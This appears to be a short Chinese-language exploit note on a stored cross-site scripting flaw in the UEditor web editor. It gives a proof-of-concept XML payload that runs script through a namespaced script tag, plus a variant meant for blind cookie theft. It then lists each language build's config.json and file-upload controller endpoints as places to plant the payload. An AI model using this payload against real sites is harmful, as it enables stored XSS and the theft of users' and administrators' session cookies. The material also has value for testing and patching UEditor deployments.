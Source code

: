 # Ueditor xss存储漏洞

漏洞POC:

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>


盲打Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

/ueditor/asp/config.json
 /ueditor/net/config.json
 /ueditor/php/config.json
 /ueditor/jsp/config.json

上传文件路径

/ueditor/index.html

 /ueditor/asp/controller.asp?action=uploadimage
 /ueditor/asp/controller.asp?action=uploadfile

 /ueditor/net/controller.ashx?action=uploadimage
 /ueditor/net/controller.ashx?action=uploadfile

 /ueditor/php/controller.php?action=uploadfile
 /ueditor/php/controller.php?action=uploadimage

 /ueditor/jsp/controller.jsp?action=uploadfile
 /ueditor/jsp/controller.jsp?action=uploadimag